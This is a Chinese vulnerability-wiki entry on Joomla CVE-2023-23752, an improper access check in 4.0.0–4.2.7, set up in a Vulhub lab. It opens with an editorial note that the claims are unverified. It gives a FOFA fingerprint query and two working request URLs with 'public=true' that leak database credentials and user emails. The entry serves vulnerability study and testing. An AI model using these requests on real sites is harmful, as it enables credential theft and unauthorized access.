



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：REST API端点启用可达；public覆盖参数

- **证据待核（1）**：有官方公告和正负public参数对照，核心证据较完整。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（2）**：示例仅config/application与users，访问任意REST API表述可能过宽须按权限路径核验。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：用户列表存在分页，所有用户信息不应仅凭一次请求断言；无修复版字段、Vulhub目录未给。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Joomla application 权限绕过漏洞 CVE-2023-23752

## 漏洞描述

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://xz.aliyun.com/t/12175
- https://vulncheck.com/blog/joomla-for-rce

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## 网络测绘

```
app="Joomla"
```

## 环境搭建

Vulhub执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。




## 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```




如果不添加`public=true`，则访问会被拒绝：




访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
